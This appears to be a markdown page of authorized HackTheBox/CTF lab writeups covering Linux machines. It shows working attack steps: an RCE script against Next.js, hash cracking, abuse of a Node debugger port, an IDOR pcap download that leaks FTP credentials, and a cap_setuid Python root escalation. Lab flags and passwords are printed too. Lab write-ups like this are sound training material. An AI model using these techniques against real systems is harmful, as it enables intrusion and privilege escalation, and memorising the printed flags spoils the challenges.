



# Linux — Labs

!!! warning "Authorized lab material only"
    These are personal writeups from authorized HTB/CTF machines, used for learning. Never run these techniques against systems you don't own or have written permission to test.

## Kenobi

> Walkthrough on exploiting a Linux machine: enumerate Samba for shares, manipulate a vulnerable version of ProFTPD, and escalate privileges with `PATH` variable manipulation.

**Chain overview:**



- Samba shares gave the initial foothold information; ProFTPD's known vulnerable version provided code execution; a misconfigured `PATH` was then abused to escalate from that foothold to root — each step alone only gets partway.
- See [Services & Processes → Samba enumeration](services-processes.md#samba-enumeration-htb-kenobi) and [Privilege Escalation → PATH variable manipulation](privilege-escalation.md#path-variable-manipulation-kenobi-htb) for the standalone technique notes.

**What was captured from the original notes:**

- Started enumeration with nmap.
- The scan found 6 open ports on the target.

!!! note "Source completeness"
    The original notes for this box are mostly screenshots (nmap output, Samba share listing, ProFTPD exploitation, PATH-hijack privesc) without transcribed command text or terminal output. Rather than invent command syntax or output that wasn't recorded, this page only reproduces what exists in writing above. The technique names and their order (Samba enum → ProFTPD exploit → PATH privesc) are confirmed from the walkthrough's own summary.

## Reactor (Node.js RCE + root process abuse)

**Chain overview:** two vulnerabilities chained together, neither sufficient alone.



- **react2shell** (RCE — a Next.js RSC deserialization gadget, see the Web-Hacking section for the web-side technique) gets code execution as the low-privileged `node` user — that's the foothold, not the win.
- **root process abuse** (see [Privilege Escalation → Root process abuse via Node.js Inspector protocol](privilege-escalation.md#root-process-abuse-via-nodejs-inspector-protocol)) is what turns that foothold into root, by abusing a debug port left open on a root-owned process.

**Full step-by-step walkthrough:**

- Recon:

```bash
nmap 10.129.245.214
```

- Web app on port 3000 (Next.js), SSH on 22.
- Foothold: unauthenticated RCE via a Next.js RSC deserialization gadget (react2shell):

```bash
python3 react2shell.py 10.129.245.214:3000 "id"
```

- Enumerated the filesystem through the RCE, found `/opt/reactor-app/reactor.db` (SQLite), dumped it with `strings` and grepped it for credential-shaped strings.
- Recovered an MD5 hash for user `engineer`, cracked it with hashcat (mode 0) against `rockyou.txt`. Cracked password: `reactor1`.

```bash
ssh engineer@10.129.245.214
```

- User flag: `398ba932de8fa9c94cd1440b8922eae3`
- PrivEsc: `sudo -l` came back denied. `ss -tlnp` plus `ps aux` showed a root-owned Node.js process with the debug port exposed on localhost (see [Privilege Escalation → Root process abuse via Node.js Inspector protocol](privilege-escalation.md#root-process-abuse-via-nodejs-inspector-protocol) for the full technique).

```bash
node inspect 127.0.0.1:9229
```

- From the debugger REPL: confirmed the process runs as uid `0`, then used the process's module loader to reach Node's process-spawning module and executed a command as root.
- Root flag: `a37efabeaa23dc8c8ba70b04c11fc20a`, obtained straight from the inspector REPL — no interactive root shell needed.

## Cap (IDOR credential leak + Python `cap_setuid` privesc)

**Chain overview:** two vulnerabilities chained together, neither sufficient alone.



- **IDOR** (an unauthenticated, sequential-ID download endpoint — see the Web-Hacking [Authorization](../../web-hacking/authorization.md) section for the access-control technique) exposes a pre-seeded demo pcap containing plaintext credentials — that's the foothold, not the win.
- **capability abuse** (see [Capabilities → `cap_setuid` on python3.8](capabilities.md#linux-capability-abuse-cap_setuid-on-python38)) is what turns that foothold into root, via a leftover `cap_setuid` grant on the system Python interpreter.

**Full step-by-step walkthrough:**

- **Why start with a full port scan:** before touching anything, we need to know what's actually reachable on the box — scanning every TCP port first (instead of just the common ones) avoids missing something running on a non-standard port.

```bash
nmap -Pn -p- --min-rate 1000 -T4 10.129.47.215
nmap -Pn -sV -sC -p21,22,80 10.129.47.215
```

```text
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
```

- **Why look at the web app next:** only 3 ports are open and both FTP and SSH need valid credentials we don't have yet — the web app is the only surface usable without authentication, so it's the logical starting point.
- Web app on port 80 is a Flask "Security Dashboard": `/`, `/capture`, `/data/<id>`, `/download/<id>`, `/ip`, `/netstat`. Directory brute-force turned up nothing beyond these known routes.
- The `/download/<id>` route takes a plain sequential number with no login check — a classic IDOR (any ID that already exists on disk is fetchable, not just ones we create ourselves).
- **Why check ID `0` specifically:** IDs count up from wherever the app's counter started, so the lowest numbers are the oldest — worth checking first since they're most likely to be pre-existing setup/demo data rather than something we just generated.
- Enumerating `/data/<id>` low IDs found capture `0` already existed with real content (72 packets) — a pre-seeded demo capture:

```bash
curl -s http://10.129.47.215/data/0
curl -s http://10.129.47.215/download/0 -o download0.pcap
tshark -r download0.pcap
```

```text
Request: USER nathan
Response: 331 Please specify the password.
Request: PASS Buck3tH4TF0RM3!
Response: 230 Login successful.
...
Request: RETR notes.txt
Response: 550 Failed to open file.
```

- **Why the password is readable:** a `.pcap` is a raw recording of network traffic, and FTP sends logins with zero encryption — so whatever was typed into the FTP client during this capture window is stored in the file as plain text.
- Credentials recovered: `nathan : Buck3tH4TF0RM3!`
- Foothold via FTP:

```bash
curl --user 'nathan:Buck3tH4TF0RM3!' ftp://10.129.47.215/ --list-only
curl --user 'nathan:Buck3tH4TF0RM3!' ftp://10.129.47.215/user.txt
```

- User flag: `091b331b6ca60cb2bf24080cd17c67aa`
- **Why try the same password on SSH:** people reuse passwords across services constantly, and FTP + SSH are the same account on the same box — so testing a newly found password against every other login is standard practice.
- Same credentials work over SSH — full interactive shell as `nathan`:

```bash
ssh nathan@10.129.47.215
$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
$ hostname
cap
```

- **Why start privesc with `sudo -l`:** it's the fastest, lowest-effort check — if the current user can already run something as root via sudo, that's the easiest path, so it's always worth ruling out first.
- PrivEsc: `sudo -l` needs a TTY/password and yields nothing useful. Checked Linux capabilities next (see [Capabilities → `cap_setuid` on python3.8](capabilities.md#linux-capability-abuse-cap_setuid-on-python38) for the full technique):

```bash
getcap /usr/bin/python3.8
# /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

- **What this output means in plain terms:** the Python 3.8 binary itself has been given the power to become any user (including root), completely separate from the normal sudo/permissions system — so running Python is enough, no exploit code required.
- `cap_setuid+eip` on the Python interpreter means any process spawned through it can `setuid(0)` directly:

```bash
python3.8 -c 'import os; os.setuid(0); os.system("id; cat /root/root.txt")'
uid=0(root) gid=1001(nathan) groups=1001(nathan)
b3973a0e0cc92a98a07f70896d1f6375
```

- Root flag: `b3973a0e0cc92a98a07f70896d1f6375`

## Academy — file-upload RCE (OS-level continuation)

- Recon/enumeration/login for HTB-style **Academy** (nmap → FTP `note.txt` hash crack → gobuster → authenticated login) is covered in the Web-Hacking section; only the OS-facing continuation is noted here.
- After authenticating, a file-upload field was found in the profile section (`my-profile.php`) — planned exploitation route was a PHP reverse shell, since the upload target is a `.php` endpoint. See [Web-Hacking → File Upload](../../web-hacking/file-upload.md) for the general technique.

!!! note "Source completeness"
    The captured notes for this walkthrough end at identifying the file-upload RCE opportunity — they don't continue into a confirmed post-shell/OS-level enumeration or privilege-escalation sequence on this box. No further OS-level steps are recorded here, to avoid inventing content not present in the source.
